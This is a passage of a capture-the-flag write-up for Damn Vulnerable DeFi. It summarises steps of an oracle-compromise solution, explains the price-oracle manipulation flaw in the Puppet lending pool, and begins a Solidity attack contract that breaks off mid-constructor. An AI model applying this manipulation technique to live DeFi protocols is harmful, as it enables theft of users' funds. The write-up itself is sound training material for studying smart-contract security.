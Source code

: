 - The private keys for the source addresses are decoded from hex and base64.
- The signer instances are created for the malicious oracles using the decoded private keys.
- The **`postPrice`** function is called for the oracles to post a new price for the "DVNFT" token.
- The **`buyOne`** function is called to simulate the purchase of one "DVNFT" token at the new price.
- The **`postPrice`** function is called again to update the price of the "DVNFT" token.
- Approval is given for the exchange to manage the "DVNFT" token with ID 0.
- The **`sellOne`** function is called to sell one "DVNFT" token at an increased price.
- The **`postPrice`** function is called once more to reset the price back to its original value.

# 8. Puppet

- The **`calculateDepositRequired`** function calculates the required deposit amount based on the **`amount`** parameter, the result of **`_computeOraclePrice()`**, and the **`DEPOSIT_FACTOR`**. This function multiplies the **`amount`** by the **`_computeOraclePrice()`** and the **`DEPOSIT_FACTOR`**, and then divides it by **`10 ** 18`**.
- The **`_computeOraclePrice`** function calculates the price of the token in wei based on the balance of the **`uniswapPair`** and the balance of the token held in the **`uniswapPair`**. It multiplies the **`uniswapPair.balance`** by **`10 ** 18`** and then divides it by **`token.balanceOf(uniswapPair)`**.
- These calculations suggest that the required deposit amount depends on the result of **`_computeOraclePrice()`**, which is derived from the balances of the Uniswap pair and the token held in the pair. Manipulating the Uniswap pair balance could potentially impact the **`calculateDepositRequired`** function and affect the borrowing mechanism in the contract.
- ********Problem:********

```solidity
function _computeOraclePrice() private view returns (uint256) {
        // calculates the price of the token in wei according to Uniswap pair
        return
            (uniswapPair.balance * (10 ** 18)) / token.balanceOf(uniswapPair); // @audit so basically if we decrease the value uniswapPair balance to manipulate price of computeOraclePrice will help attacker to borrow or steal tokens at very low price
        // note breaking the rule that one DVT token will be worth 1 ETH!
    }
}
```

- **Solution:**

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.0;

import {PuppetPool} from "./PuppetPool.sol";
import {DamnValuableToken} from "../DamnValuableToken.sol";
import "./IUniswapExchange.sol";

contract puppetAttack{

    uint256 amount = 1000 ether;
    // as we assume it is 1:1 ratio 1DVT for 1ETH
    uint256 tokenAmount = 100000 ether;

    PuppetPool public pool;
    IUniswapExchange public exchange;
    DamnValuableToken public token;
    address public player;

    constructor(address _exchange,address _pool,address _token,address _player)
    payable
    {   
        exchange = IUniswapExchange(_exchange);
        pool = PuppetPool(_pool);
        token = DamnValuableToken(_token);
```